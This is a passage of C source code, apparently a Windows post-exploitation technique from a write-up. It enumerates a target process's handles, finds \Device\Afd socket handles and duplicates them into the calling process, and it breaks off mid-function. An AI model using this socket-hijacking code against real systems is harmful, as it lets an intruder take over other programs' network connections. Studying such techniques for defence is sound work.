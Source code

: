 ```c

	// Open target process with PROCESS_DUP_HANDLE rights
	hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
	if (!hProc) {
		printf("[!] Error: could not open the process!\n");
		exit(-1);
	}
	printf("[+] Handle to process obtained!\n");

	// Find the functions
	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

	// Retrieve handles from the target process
	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);

	printf("[+] Found [%d] handlers in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

	// Iterate 
	for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

		// Check if it is the desired type of handle
		if (handleInfo->Handles[i].ObjectTypeNumber == 0x24) {

			SYSTEM_HANDLE handle = handleInfo->Handles[i];
			HANDLE dupHandle = NULL;
			POBJECT_NAME_INFORMATION objectNameInfo;

			// Dupplicate handle
			NtDuplicateObject(hProc, (HANDLE)handle.Handle, GetCurrentProcess(), &dupHandle, PROCESS_ALL_ACCESS, FALSE, DUPLICATE_SAME_ACCESS);
			objectNameInfo = (POBJECT_NAME_INFORMATION)malloc(0x1000);

			// Get handle info
			NtQueryObject(dupHandle, ObjectNameInformation, objectNameInfo, 0x1000, &returnLength);

			// Narrow the search checking if the name length is correct (len(\Device\Afd) == 11 * 2)
			if (objectNameInfo->Name.Length == 22) {
				printf("[-] Testing %d of %d\n", i, handleInfo->HandleCount);

				// Check if it ends in "Afd"
				LPWSTR needle = (LPWSTR)malloc(8);
				memcpy(needle, objectNameInfo->Name.Buffer + 8, 6);
				if (needle[0] == 'A' && needle[1] == 'f' && needle[2] == 'd') {

					// We got a candidate
					printf("\t[*] \\Device\\Afd found at %d!\n", i);

					// Try to duplicate the socket
					status = WSADuplicateSocketW((SOCKET)dupHandle, GetCurrentProcessId(), &wsaProtocolInfo);
					if (status != 0) {
						printf("\t\t[X] Error duplicating socket!\n");
						free(needle);
```